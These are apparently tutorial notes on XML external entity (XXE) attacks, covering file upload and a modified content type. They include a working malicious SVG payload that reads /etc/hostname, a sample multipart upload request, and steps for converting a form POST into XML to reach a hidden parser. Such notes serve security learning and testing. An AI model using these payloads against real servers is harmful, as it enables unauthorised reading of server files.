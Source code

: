 ## XXE attacks via File upload
- some applications allow users to upload files which are then processed server-side.
- some common file formats use XML or Contains XML sub-components.
- Example: XML based formats are office documents like `DOCX` and image formats like `SVG`
- for example: application might allow user to upload images, and process or validate these on the server after they are uploaded. 
- even if the application expects to receive a format like `PNG or JPEG` the Image processing library that is being used might support `SVG` images, since the SVG format uses `XML`. an attacker can submit a `malicious SVG` image and so read hidden attack surface for XXE vulnerabilities.
**EXploit :**
```bash
<?xml version="1.0" standalone="yes"?><!DOCTYPE test \[ <!ENTITY xxe SYSTEM "file:///etc/hostname" > \]><svg w  
idth="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" vers  
ion="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
**request looks like this**
```js
Content-Disposition: form-data; name="avatar"; filename="exploit.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?><!DOCTYPE root [<!ENTITY dk SYSTEM "file:///etc/hostname"> ]><svg width="128px" height="128px" xmlns="http://www.w3.org./2000/svg" xmlns:xlink="http://www.w3.org/1999/Xlink" version="1.1"><text font-size="16" x="0" y="16">&dk;</text></svg>
```

## XXE via Modified Content Type
- most `POST` request use a default content-type that has generated by HTML Forms such as `application/x-www-form-urlencoded` 
- some server expect to receive request in this format but this format will be tolerate other content types, including XML
```js
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

parameter=value
```
we will tolerate this request and convert this content type into XML
```js
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 63 {here we need to put length of our payload i.e charector length of xml DTD}

<?xml version="1.0" encoding="UTF-8"?><parameter>value</parameter>
```
- if application tolerates request containing XML in the message Body and parse the body content as XML, then you reach the `hidden XXE` attack surface simply by reformating request to use the XML format.
